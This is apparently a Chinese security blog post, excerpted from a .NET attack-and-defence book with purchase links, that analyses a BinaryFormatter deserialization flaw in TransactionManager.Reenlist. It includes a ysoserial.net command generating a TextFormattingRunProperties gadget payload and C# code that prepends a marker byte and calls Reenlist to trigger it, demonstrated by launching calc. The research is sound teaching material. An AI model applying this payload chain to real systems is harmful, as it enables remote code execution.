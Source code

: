 #  实战+分析 | .NET 分布式事务反序列化漏洞插件   
原创 专攻.NET安全的  dotNet安全矩阵   2025-03-31 08:25  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在分布式事务处理中，TransactionManager.Reenlist  
 方法被用于重新注册事务的参与者，以确保事务状态的一致性。  
  
然而，该方法内部调用了 BinaryFormatter  
 进行反序列化，从而可能导致恶意代码执行。本文将深入解析该漏洞的利用方式，并展示如何构造攻击载荷，从而帮助安全研究人员理解该漏洞的危害，并提升防御能力。  
本文内容节选自《.NET安全攻防指南》一书 第17章 .NET反序列化漏洞插件，感兴趣的读者可进一步阅读本书获取更多安全研究内容。  
  
全书共计25章，总计1010页，分为上下册  
，  
横跨.NET Web代码审计与红队渗透两大领域。  
原价258元，现限量优惠，  
一套上下册仅售**141元**  
，数量  
有限，先到先得！  
  
点击京东链接：  
https://item.jd.com/10140917044329.html   
或者打开手机京东APP即可下单购买。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZOiaWJNxoH4lhqMk1HiaHLgD8hTblyfwy10mJic38lEDLDy7Vib9ly4trSw/640?wx_fmt=png&from=appmsg "")  
  
**01. Reenlist基本介绍**  
  
  
  
在 .NET 框架中，System.Transactions.TransactionManager  
 负责管理分布式事务，允许多个资源管理器参与同一个事务，并保证它们的一致性。  
  
其中，TransactionManager.Reenlist方法用于在事务崩溃或中断后重新注册事务的参与者，确保事务状态得以恢复。例如，当数据库事务因网络中断而未能正确提交，事务管理器可在系统恢复后重新注册该事务，并尝试提交或回滚操作。  
  
然而，该方法的 byte[]  
 参数为二进制序列化数据，使用 BinaryFormatter  
 进行反序列化，这为攻击者提供了一个利用点：如果传入恶意序列化数据，则可能导致代码执行漏洞。  
  
**02. 反序列化利用原理**  
  
  
  
在 TransactionManager.Reenlist 方法内部，核心处理逻辑如下，首先创建 MemoryStream：该方法首先使用 MemoryStream 读取传入的二进制数据，随后，从流中读取一个 32 位整数（int num），并检查其值是否为 1。如果不满足，则不会进入后续处理逻辑。  
  
当 num == 1 时，进入 ReenlistTransaction 进行事务恢复。该方法最终调用 BinaryFormatter 进行反序列化，从而加载事务对象。为了构造有效的攻击载荷，我们可以使用 ysoserial.net 生成基于 TextFormattingRunProperties 的 BinaryFormatter 反序列化攻击载荷。  
  
```
ysoserial.exe -f BinaryFormatter -g TextFormattingRunProperties -o base64 -c calc
```  
  
  
上述命令将生成一个 Base64 编码的恶意载荷，该载荷在反序列化时会触发 calc.exe 执行，生成的攻击载荷如图  
17-12所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZDhyFrbzLG9UGq8TdqDz2nROzRhvfqZMEu2Y2p6SIFykHBYanSLyDjQ/640?wx_fmt=png&from=appmsg "")  
  
图  
17-12  
 yso生成  
BinaryFormatter载荷  
  
然后对  
payload进行解码得到二进制数据  
serializedData，将额外的信息添加到之前的事务注册数据中，具体实现代码如下所示。  
  
```
byte[] serializedData = Convert.FromBase64String(payload);byte[] newSerializedData = new byte[serializedData.Length + 5]; 	serializedData.CopyTo(newSerializedData, 5);newSerializedData[0] = 1;TestMe myTransactionEnlistment = new TestMe();TransactionManager.Reenlist(Guid.NewGuid(), newSerializedData, 	myTransactionEnlistment);
```  
  
  
最后调用  
TransactionManager.Reenlist  
 方法重新注册事务参与者触发反序列化漏洞。  
  
**03. 反序列化原理分析**  
  
  
  
Reenlist方法通过创建一个  
   
MemoryStream  
 对象来读取传入的序列化数据，然后使用  
binaryReader  
 从流中读取一个  
   
32  
 位整数值，并将其存储在变量  
   
num  
 中，并且检查整数值是否为  
1，也就是说第一位字节码必须是  
1，因此在重组事务数据时使用了  
newSerializedData[0]  
   
=  
   
1，如图  
17-13所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZ56878WpCff0ZRibg9jk4zDiaiaAgM12Kz01kJvKzsPBgLkZWjDK9yhK7g/640?wx_fmt=png&from=appmsg "")  
  
图  
17-13  
 重组事务数据第  
1位字节码  
  
接着调用  
oletxTransactionManager.ReenlistTransaction方法，用于有效性检查和获取相关资源，便于重新注册事务，如图  
17-14所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZkdZTeQSibmLSs75EDQPz6OONNyJcDFCCwM86ibhT4mnXqjKWmxE2EIRw/640?wx_fmt=png&from=appmsg "")  
  
图17-14  
 ReenlistTransaction方法  
重新注册事务  
  
从图上调试显示进入核心方法  
 “  
oletxResourceManager.Reenlist”，内部调用了  
BinaryFormatter格式化器  
   
formatter，用于反序列化恢复事务对象信息，也因此加载恶意的攻击载荷触发了反序列化漏洞。调试运行时如图  
17-15所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZqSEmbib8qL8yoy4WSicBpR6gg4hr2dBwx8diaOlUQCAekP1aebrJjDnUg/640?wx_fmt=png&from=appmsg "")  
  
图  
17-15  
 运行时反序列化启动本地计算器  
  
综上，我们深入分析了 TransactionManager.Reenlist 方法的工作原理，并通过构造恶意序列化数据，成功利用该方法触发反序列化漏洞，从而执行任意代码。本文内容摘自《.NET安全攻防指南》，书中包含更多关于 .NET 反序列化、内存利用、权限提升等安全研究的深度分析，欢迎安全研究人员阅读下单！  
  
**04. 本书内容总结**  
  
  
  
在《.NET安全攻防指南》上册中，我们不仅详细讲解了各类漏洞的基本原理和防范措施，还深入探讨了如何利用代码审计技术精准定位潜在的漏洞点。通过对比不同.NET框架下的敏感函数和方法，帮助读者提升代码审计的效率与准确性。同时，书中还介绍了一些实用的安全测试工具和插件，助力读者在实战中快速掌握核心技能。  
  
在下册中，我们进一步探讨了.NET安全的进阶话题和实战技巧。结合丰富的案例和实战演练，帮助读者将理论知识有效转化为实战能力。此外，书中还介绍了最新的安全工具和插件，助力读者在.NET安全领域不断前行。  
  
限量优惠！京东自营店分别购买上下册，只需141元（原价258元），数量有限，先到先得！  
  
购买上册，点击京东链接：  
https://item.jd.com/14396195.html   
或者打开手机京东APP即可下单购买。  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZBJAHue1WYwztZMJsnSSbFPPjEUIYJaTuPGKOrOU8qawIOKjkMxnz7w/640?wx_fmt=png&from=appmsg "")  
  
  
购买下册，点击京东链接：https://item.jd.com/14965324.html 或者打开手机京东APP即可下单购买。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YiczFumr4Lk4geQZTd24gOXZcybdzhcdocMU9jt3eLHZUMbOqkQpBB4LE6oWSGhnsfiaAnNLnU20z6g/640?wx_fmt=png&from=appmsg "")  
  
同时，欢迎大伙扫码添加 @ken 的微信，获取更多有关本书的详细内容！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y84t26arC49dBibiaY667iaC5hDLiajeLPf8zL4ZY4ntzbicBVtYibWayLt9qobw8HOhun78mYbibtTtDWDQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
